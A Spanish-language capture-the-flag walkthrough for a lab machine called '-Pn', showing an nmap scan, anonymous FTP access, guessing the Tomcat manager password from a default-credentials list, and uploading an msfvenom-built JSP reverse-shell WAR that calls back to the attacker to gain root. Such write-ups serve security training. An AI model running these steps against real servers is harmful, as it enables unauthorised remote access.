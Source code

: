 # MÁQUINA -Pn

Lo primero que tendremos que hacer será realizar un escaneo de puertos a la máquina víctima usando nmap:

```shell
nmap -p- -sS -sC -sV -vvv --min-rate 5000 -Pn 172.17.0.2
```

![NMAP](https://github.com/Isma-yo/photos/blob/main/-Pn/foto.jpg)

Vemos que están abiertos tanto el puerto 8080 como el 21. En este último podemos loggearnos como anonymous y coger el contenido de ese fichero tomcat.txt:

![FTP](https://github.com/Isma-yo/photos/blob/main/-Pn/foto2.jpg)

Si hacemos un cat del archivo vemos que solo nos da un posible usuario tomcat, nada más en especial, asi que ahora vamos a mirar el contenido del puerto 8080:

![WEB](https://github.com/Isma-yo/photos/blob/main/-Pn/foto3.jpg)

Vemos que es una página de tomcat. Tenemos un usuario tomcat, así que vamos a buscar cuáles son las contraseñas por defecto o más usadas en tomcat:

https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown

Después de ir probando, damos con la contraseña del usuario tomcat, s3cr3t. Así que vamos a accder al panel de administración:

![IN](https://github.com/Isma-yo/photos/blob/main/-Pn/foto4.jpg)

Vemos que hay una opción para subir archivos de tipo WAR, podemos intentar subirnos una reverse shell. Para generarla podemos utilizar msfvenom:

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=443 -f war -o shell.war
```

Subimos el archivo, vemos que se ha subido, antes de pinchar encima de el nos ponemos a la escucha y...:

![ROOT](https://github.com/Isma-yo/photos/blob/main/-Pn/foto5.jpg)

Y ya somos root!






